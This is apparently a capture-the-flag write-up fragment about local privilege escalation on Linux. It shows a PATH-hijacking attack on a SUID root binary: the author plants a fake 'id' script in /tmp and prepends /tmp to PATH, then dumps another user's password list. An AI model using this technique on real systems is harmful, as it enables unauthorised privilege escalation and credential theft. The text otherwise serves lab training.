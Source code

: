 ```bash
/usr/bin/umount
```
googled the results
- **`/usr/sbin/pwm` - This is not a standard Linux command (might be specific to hardware or a custom installation).**
```
ls -alps /usr/sbin/pwm
20 -rwsr-sr-x 1 root root 17176 Jan 11  2024 /usr/sbin/pwm
```
also owned by root
saw executable perms to others
tried to execute
```
 /usr/sbin/pwm
/usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```
 this binary seems to execute the “id” command, and then extracts the username out of it, and then puts that username into “/home/< username >/.passwords” and tries to do something with it

If the “id” command is not specified with it’s full path (/bin/id), it is found and executed via the PATH variable in our environment.
```
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
add /tmp to the $PATH
```
export PATH=/tmp:$PATH
bash-5.0$ echo $PATH
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

created a file called id with these contents
```
#!/bin/bash
echo "uid=33(think) gid=33(think) groups=33(think)"
```
run pwm
```
/usr/sbin/pwm
```
output
```bash
/usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: THINK
jose1000
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
jose0_07
jose0900
jose09865
jose098130443
jose0981
jose0924
jose0923
jose0921
```